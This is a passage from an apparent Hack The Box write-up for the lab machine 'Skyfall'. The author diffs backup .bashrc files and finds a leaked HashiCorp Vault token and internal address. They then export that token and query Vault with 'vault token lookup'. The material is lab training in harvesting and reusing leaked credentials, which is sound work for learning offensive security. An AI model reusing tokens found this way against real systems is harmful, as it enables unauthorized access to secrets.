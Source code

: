 The difference is interesting:

```

oxdf@hacky$ diff home_backup_v2/.bashrc home_backup/.bashrc
43,45d42
< export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
< export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
< 

```

Another domain for my `hosts` file:

```
10.10.11.254 skyfall.htb demo.skyfall.htb prd23-s3-backend.skyfall.htb prd23-vault-internal.skyfall.htb

```

### SSH

#### Vault Setup

The “vault” here is [HashiCorp Vault](https://www.vaultproject.io/), which I actually ran into back in 2020 in [Craft](/2020/01/04/htb-craft.html#enumerate-vault). In Craft, the `vault` binary was installed on the box. I’ll install it on my box using the instructions [here](https://developer.hashicorp.com/vault/tutorials/getting-started/getting-started-install).

Just like in Craft, I can start by looking up information about the logged in user. I’ll need to set three environment variables for the client to work:

```

oxdf@hacky$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
oxdf@hacky$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
oxdf@hacky$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
oxdf@hacky$ vault token lookup
Key                  Value
---                  -----
accessor             rByv1coOBC9ITZpzqbDtTUm8
creation_time        1699563963
creation_ttl         768h
display_name         token-askyy
entity_id            n/a
expire_time          2073-10-27T21:06:03.043964076Z
explicit_max_ttl     0s
id                   hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
issue_time           2023-11-09T21:06:03.445155372Z
last_renewal         2023-11-20T16:43:24.043964166Z
last_renewal_time    1700498604
meta                 <nil>
num_uses             0
orphan               true
path                 auth/token/create
policies             [default developers]
renewable            true
ttl                  431063h45m10s
type                 service

```
